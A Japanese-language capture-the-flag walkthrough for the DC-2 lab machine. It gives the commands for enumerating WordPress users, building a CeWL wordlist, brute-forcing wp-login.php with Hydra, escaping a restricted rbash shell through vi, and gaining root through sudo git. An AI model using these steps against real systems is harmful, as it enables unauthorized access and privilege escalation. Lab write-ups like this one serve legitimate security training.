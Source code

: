 ## DC-2 454~
## 目的
- flag1,2,rootを表示する
***
### ポートスキャンまでは同じ
  - ポートスキャン 80(http), 7744(ssh)
### WEBサイトを見る
- `192.168.56.104`でサイトを見ると`dc-2`に飛ばされる(リダイレクトと呼ぶ)
- 直すために`sudo vim /etc/hosts`に以下のように書き込む
- `192.168.56.104 dc-2`
- これはipアドレスにドメインネームを設定している
- サイトが開くのでflag1を見つける
- サイトを見てFLAGSを探す。3つヒントが書いてある。
- 1. Cewlを使う
  2. 1人でログイン
  3. 別名でログイン
### gobuster
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`
  - `$URL`の代わりに`$IP`でもOK 
- `/wp-admin`があることがわかる
### ブラウザでチェックしてみる
- 先ほど取得したディレクトリでサイトにアクセスしてみると認証ページに飛ぶことがわかる
- それ以上は特にわからない
### wig
  - `wig $URL`
  - wordPressのバージョンやOSのバージョンがわかる 
### Nmap NSE
- wordPressのユーザを見つけることができる
- `nmap -p80 --script http-wordpress-users 192.168.56.104`
- userが3人であることがわかる
- users.txtを作る
  - `cat > users.txt` で３人の名前を書いて、改行して ctrl + c
  - ```
    admin
    jerry
    tom 
    ```
### CewL
- CewLは指定したWEBサイトをスクレイピングして、キーワードを辞書ファイルとして生成するツール
- `./cewl.rb dc-2 -w ../cewl.txt`
  - パスが通っていないのでCewlフォルダに入って実行する
  - dc-2は/etc/hostsで設定したIPアドレスで、そこの対象のサイトをスクレイピングする
  - -wはファイルの書き込みを指定していて、一つ上のフォルダに指定している。絶対パスで自分の好きなとこにおいてもいい
### Hydra
- `hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`
  - -L:ユーザリストを指定, -l:特定のユーザを指定
  - -P:パスワードリストを指定, -p:特定のパスワードを指定
  - logとpwdはwp-login.phpのソースコードを見るとわかる
### 認証情報
|ユーザ名|パスワード|
|:-|:-|
|admin|?|
|jerry|adipiscing|
|tom|parturient|

### WordPressのダッシュボードにアクセスする
  - `http://192.168.56.104/wp-admin/`
  - NmapとHydraで得たuser,passwordを入力してアクセスする
  - Flag2を見つける 
### SSH
  - wordPressの投稿者がsshのユーザと仮定している
  - jerryでログインするが失敗する。jerryはwordpressのパスワードとsshのパスワードを使い回していない
  - tomでssh `ssh -p 7744 tom@$IP`
  - passwordを入力
  - `echo $PATH`で`ls $PATH`を見るとコマンドが４つしか使えない
  - プロンプトが返ってくる `echo $SHELL`でrbashという制限が多いシェルだとわかる 
### 通常のシェルを使えるようにする
  - viは使えるのでGTFOBinsで`vi`でシェルを呼び出すのを見つける
  - viを呼び出す
  - `:set shell=/bin/sh`
  - Enterを押す
  - `:shell`
  - Enterを押す
  - `$`が出たら成功
### 環境変数を設定する
  - 通常のコマンドが使えるようにPATHを追加する
  - `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin/:/usr/bin:/sbin:/bin`
  - 確認する `echo $PATH`
### jerryでssh
  - ユーザを切り替え `su jerry`
  - パスワードを入力 <- wordpressのパスワードを使い回している 
### git
- `sudo -l`
- GTFOBinsでgitコマンドを利用して、root権限を取得する
- `sudo git -p help config`
- `:`と出てきたら成功で以下を入力
- `!/bin/sh`  
### Flagを取得
  - `cd /root | cat final-flag.txt` 
